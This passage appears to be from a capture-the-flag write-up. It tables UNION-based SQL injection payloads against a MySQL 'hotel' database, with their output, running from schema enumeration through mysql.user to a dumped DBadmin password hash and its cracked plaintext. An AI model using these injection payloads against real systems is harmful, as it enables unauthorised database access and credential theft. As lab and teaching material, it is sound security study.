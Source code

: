   ---------------------------------------------------------------------------------------------------------------------------------------------------------
  Goal                                Injection
  ----------------------------------- ---------------------------------------------------------------------------------------------------------------------
  Result                              

  List DBs                            `SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -`

                                      hotel,information_schema,mysql,performance_schema

  Show Tables in hotel                `SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='hotel' ;-- -`

                                      room

  Show Columns in room                `SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room';-- -`

                                      cod,name,price,descrip,star,image,mini

  Show Tables in mysql                `SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- -`

                                      column_stats,columns_priv,db,event,func, general_log,gtid_slave_pos,help_category,
                                      help_keyword,help_relation,help_topic,host, index_stats,innodb_index_stats,innodb_table_stats,
                                      plugin,proc,procs_priv,proxies_priv,roles_mapping, servers,slow_log,table_stats,tables_priv,time_zone,
                                      time_zone_leap_second,time_zone_name, time_zone_transition,time_zone_transition_type,user

  Show Columns in user                `SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='user';-- -`

                                      Host,User,Password,Select_priv,Insert_priv,Update_priv, Delete_priv,Create_priv,Drop_priv,Reload_priv,
                                      Shutdown_priv,Process_priv,File_priv,Grant_priv, References_priv,Index_priv,Alter_priv,Show_db_priv,
                                      Super_priv,Create_tmp_table_priv,Lock_tables_priv, Execute_priv,Repl_slave_priv,Repl_client_priv,
                                      Create_view_priv,Show_view_priv,Create_routine_priv, Alter_routine_priv,Create_user_priv,Event_priv,
                                      Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher, x509_issuer,x509_subject,max_questions,max_updates,
                                      max_connections,max_user_connections,plugin, authentication_string,password_expired,is_role,
                                      default_role,max_statement_time

  Get Username / Password             `SELECT 1, user,3, 4,password, 6, 7 from mysql.user;-- -`

                                      DBadmin\
                                      2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
  ---------------------------------------------------------------------------------------------------------------------------------------------------------

A [hashes.org search](https://hashes.org/search.php) gives the password:



    MYSQL5 2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou


